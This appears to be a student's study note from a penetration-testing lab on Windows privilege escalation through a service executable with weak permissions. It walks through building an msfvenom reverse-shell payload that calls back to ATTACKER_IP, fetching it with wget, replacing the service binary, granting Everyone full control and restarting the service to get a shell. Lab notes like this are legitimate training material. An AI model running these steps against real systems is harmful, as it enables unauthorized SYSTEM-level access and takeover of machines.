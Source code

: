 ### Commands
- We can check individual services using `sc qc`
	- i.e. `sc qc apphostsvc`
```shell-session
C:\> sc qc apphostsvc 
[SC] QueryServiceConfig SUCCESS 

SERVICE_NAME: apphostsvc 
	TYPE : 20 WIN32_SHARE_PROCESS 
	START_TYPE : 2 AUTO_START 
	ERROR_CONTROL : 1 NORMAL 
	BINARY_PATH_NAME : C:\Windows\system32\svchost.exe -k apphost 
	LOAD_ORDER_GROUP : 
	TAG : 0 
	DISPLAY_NAME : Application Host Helper Service 
	DEPENDENCIES : 
	SERVICE_START_NAME : localSystem
```
- All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`


## Insecure Permissions on Service Executable
### Description
When a service has weak permissions that allow an attacker to modify or replace it.

### Commands
1. `sc qc <FILE_NAME>` to find a possible file
2. `icacls <PATH_TO_FILE>` to check its permissions
3. We are looking for **M** to be apart of a group we have access to like Everyone
4. Seeing this means we can edit the file and run it and have it run under which ever user set it up.
5. We need to now create a file that will call back to us and get it on the machine in this case we will run a Python server on our machine.
```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe 

user@attackerpc$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
6. Now pull it with `wget`
	1. `wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`
	2. `wget` only works on Powershell
7. Now move the file to the location we want it to replace
```shell-session
C:\> cd C:\PROGRA~2\SYSTEM~1\ 

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp 
1 file(s) moved. 

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe 
1 file(s) moved. 

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F 
Successfully processed 1 files.
```
9. Then we need a `nc` listener on our end so lets start that up
10. Lastly we need to restart the service so it will run our RSHELL
	1. `sc stop windowsscheduler`
	2. `sc start windowsscheduler`
	3. Use `sc.exe` when running on Powershell
